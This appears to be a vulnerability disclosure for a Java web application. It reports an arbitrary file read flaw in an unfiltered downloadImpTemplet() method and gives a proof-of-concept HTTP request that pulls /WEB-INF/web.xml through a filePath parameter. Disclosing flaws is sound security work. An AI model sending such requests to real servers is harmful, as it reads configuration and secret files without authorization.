 ```
                logOutput.error("关闭bos资源出错！");
            }
        }
        return null;
    }
```
<img width="2374" height="1319" alt="image" src="https://github.com/user-attachments/assets/238050a9-38ce-46a4-b653-3f944a74730b" />
The downloadImpTemplet() method reads files via the path and echoes the content. There is no filtering applied to the input path, so an arbitrary file read vulnerability exists.  

To invoke this method, it is necessary to specify the action as `downloadImpTemplet` in the URL.

<img width="1629" height="1245" alt="image" src="https://github.com/user-attachments/assets/116a6180-d400-4e9b-bb55-f19913760bd1" />

Thus, a PoC can be constructed as follows:

```
GET /common/dep/common_dep.action.jsp?action=downloadImpTemplet&filePath=/WEB-INF/web.xml&fileName=12 HTTP/1.1
Host: 
Cookie: JSESSIONID=8EE92ABDDC45DA843C24458BF48CCCAB
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 15_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/18.3 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Dnt: 1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```

<img width="1860" height="735" alt="image" src="https://github.com/user-attachments/assets/34de9739-f49c-45dc-8864-4e24eb854aa0" />

Thank you for your review, and wish you happiness every day.

